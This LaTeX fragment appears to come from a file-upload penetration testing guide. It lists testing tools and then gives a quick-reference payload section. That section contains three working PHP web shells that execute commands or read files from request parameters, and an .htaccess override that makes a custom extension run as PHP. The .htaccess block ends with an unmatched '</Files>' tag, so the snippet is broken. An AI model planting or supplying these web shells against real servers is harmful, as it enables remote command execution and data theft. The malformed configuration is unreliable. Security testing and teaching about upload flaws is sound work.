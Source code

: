 \documentclass[11pt]{article}
\begin{document}
\begin{center}
\begin{tabularx}{\linewidth}{@{}l X@{}}
\toprule
\textbf{Tool} & \textbf{Purpose} \\
\midrule
Burp Suite & Intercept, modify, and replay upload requests \\
Burp Turbo Intruder & Parallel requests for race condition testing \\
Burp Upload Scanner (extension) & Automated file upload testing \\
OWASP ZAP FileUpload add-on & Systematic upload vulnerability scanning \\
fuxploider & Automated file upload fuzzing \\
exiftool & Create polyglot files with embedded payloads \\
ImageMagick & Test parser vulnerabilities, create polyglots \\
ysoserial & Java deserialization payloads (if combined with upload) \\
PayloadsAllTheThings & Reference payloads for extensions and bypasses \\
\bottomrule
\end{tabularx}
\end{center}

\section{Quick Reference: Common Payloads}

\subsection{PHP Web Shell}
\begin{lstlisting}[style=code]
<?php echo system($_GET['command']); ?>
<?php echo file_get_contents('/path/to/file'); ?>
<?php if(isset($_REQUEST['cmd'])){ echo shell_exec($_REQUEST['cmd']); } ?>
\end{lstlisting}

\subsection{.htaccess Override}
\begin{lstlisting}
AddType application/x-httpd-php .rce
AddHandler application/x-httpd-php .rce
</Files>
\end{lstlisting}
\end{document}
